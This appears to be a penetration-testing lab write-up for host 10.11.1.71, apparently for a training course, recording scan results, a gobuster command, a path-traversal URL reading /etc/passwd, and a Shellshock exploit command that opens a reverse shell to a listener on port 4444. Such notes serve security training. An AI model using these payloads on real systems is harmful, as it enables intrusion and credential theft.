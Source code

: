 # Summary
# Location
- IP Address: 10.11.1.71
## System Information
- OS: Ubuntu 4.4
- Kernal: Linux alpha 3.13.0-141-generic #190-Ubuntu SMP Fri Jan 19 12:52:38 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
- Hostname: 
- DomainName: 
- Domain Sid: 
- DNS: 
## Vulnerabilities & Attack Vectors
- Exploit 1
- Exploit 2
- Exploit 3
## Post Exploitation
- Proof
## Credentials
### OS
- uri:
- username:
- password:

## System Setup
- ICMP: Enalbed/Disabled
- Firewall: Enabled/Disabled. Will respond to ICMP?
- Essential Services: XXX (TCP XXX)
- Platform:

## Notes

# Service Enumeration
## Port Scan (Nmap)

## Key Infomation
The Nmap version scan identifies an interesting potential entrypoint, in this case, we should focus on th

Apache/2.4.7
PHP/5.5.9-1
ubuntu4.4


from 10.11.1.71/README.md
find the changelog
BigTree CMS 4.0.6


support@bigtreecms.org


gobuster dir -u http://$ip  -w /usr/share/wfuzz/wordlist/vulns/cgis.txt -t 10 -o cgi.txt -a "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"

find
http://10.11.1.71/cgi-bin/admin.cgi
http://10.11.1.71/cgi-bin/admin.cgi?list=../../../../../../../../../../etc/passwd
http://10.11.1.71/cgi-bin/test.cgi

the test.cgi


linpeas.sh
╔══════════╣ CVEs Check                                                                                                
Vulnerable to CVE-2021-4034




# Exploitation
## Exploit 1
- Title: Shellshock
- CVE: 2014-6271
- EBD-ID: 
- Link: https://github.com/b4keSn4ke/CVE-2014-6271/blob/main/shellshock.py

python3 ./shellshock.py  192.168.45.197 4444 10.11.1.71/cgi-bin/admin.cgi

## Exploit 2
- Title: 
- CVE:
- EBD-ID: 
- Link: https://github.com/c3c/CVE-2021-4034

## Exploit 3
- Title:
- CVE:
- Link:
